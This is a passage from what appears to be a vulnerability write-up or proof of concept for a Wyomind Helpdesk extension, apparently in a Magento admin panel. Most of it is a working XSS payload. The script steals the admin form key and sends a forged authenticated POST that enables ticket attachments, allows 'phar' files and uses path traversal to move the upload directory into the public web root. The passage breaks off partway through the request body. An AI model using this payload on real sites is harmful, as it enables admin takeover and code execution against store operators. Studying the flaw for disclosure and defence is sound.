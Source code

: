 This request can be used to deliver the XSS payload and triggering the other vulnerabilites, specifically: 

1. Enabling file attachments in ticket messages
2. Adding `phar` to allowed file extensions
3. Setting the attachment directory to `helpdesk/files/../../../pub`

Full payload performing the above actions:

```
<script>
function successListener(e) {    
	var doc = e.target.response
	var action=doc.getElementById('config-edit-form').action;
	
	function submitRequest()
	{
	var formKey = FORM_KEY;
	var xhr = new XMLHttpRequest();
	xhr.open("POST", action, true);
	xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------14303502862141221692667966053");
	xhr.withCredentials = true;
	var body = "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"form_key\"\r\n" + 
	  "\r\n" + 
	  formKey + "\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_license]\"\r\n" + 
	  "\r\n" + 
	  "0\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_general]\"\r\n" + 
	  "\r\n" + 
	  "1\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[general][fields][enabled][value]\"\r\n" + 
	  "\r\n" + 
	  "1\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[general][fields][log][value]\"\r\n" + 
	  "\r\n" + 
	  "0\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[general][fields][default_email][value]\"\r\n" + 
	  "\r\n" + 
	  "\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[general][fields][default_status][value]\"\r\n" + 
	  "\r\n" + 
	  "1\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[general][fields][pending_status][value]\"\r\n" + 
	  "\r\n" + 
	  "2\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[general][fields][closed_status][value]\"\r\n" + 
	  "\r\n" + 
	  "3\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
```
